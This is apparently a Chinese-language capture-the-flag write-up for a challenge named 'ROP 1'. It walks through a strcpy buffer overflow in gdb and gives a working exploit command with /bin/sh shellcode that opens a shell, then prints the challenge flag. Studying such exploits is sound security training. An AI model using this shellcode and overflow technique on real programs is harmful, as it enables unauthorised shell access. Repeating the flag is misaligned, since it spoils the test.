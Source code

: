 # ROP 1
執行檔被ASLR保護的時候，就是使用如標題[return-oriented programming](https://en.wikipedia.org/wiki/Return-oriented_programming)的時候了！
 * 編譯好後，打開gdb，看提示說的`%eax`有什麼用：
```
$ gdb -q rop1
Reading symbols from rop1...(no debugging symbols found)...done.
(gdb) disass vuln
Dump of assembler code for function vuln:
   0x08048e60 <+0>:	push   %ebp
   0x08048e61 <+1>:	mov    %esp,%ebp
   0x08048e63 <+3>:	sub    $0x48,%esp; buf
   0x08048e66 <+6>:	sub    $0x8,%esp; name
   0x08048e69 <+9>:	pushl  0x8(%ebp); argument name of strcpy
   0x08048e6c <+12>:	lea    -0x48(%ebp),%eax; load buf -> %eax!
   0x08048e6f <+15>:	push   %eax; argument buf of strcpy
   0x08048e70 <+16>:	call   0x80481e0; calling strcpy
   0x08048e75 <+21>:	add    $0x10,%esp
   0x08048e78 <+24>:	leave
   0x08048e79 <+25>:	ret
End of assembler dump.
```
 * `%eax`存著指到buf的pointer，而且會**被strcpy執行**！
 * 看看我們想呼叫的be_nice_to_people在哪：
```
(gdb) print be_nice_to_people
$1 = {<text variable, no debug info>} 0x8048e3c <be_nice_to_people>
```
 * 目前stack長相：
```
| <ret addr>
| <old %ebp>   <= %ebp
| <buf..0x48
|  bytes..long>
| <addr-name>
| <addr -buf>   <= %esp
```
 * overflow ```0x8048e3c``` 到<ret addr>
```bash
$ ./rop1 "$(python -c 'print "A" * 0x48 + "A" * 4 + "\x3c\x8e\x04\x08"')"
Illegal instruction (core dumped)
```
 * bingo！接下來，替換成開啟shell的shellcode：
```
$ ./rop1 "$(python -c 'print "\xeb\x1a\x5e\x31\xc0\x88\x46\x07\x8d\x1e\x89\x5e\x08\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\xe8\xe1\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68" + "A" * 36 + "\x3c\x8e\x04\x08"')"
$ ls
Makefile    flag.txt    rop1    rop1.c
$ cat flag.txt
theres_no_need_to_guess
```
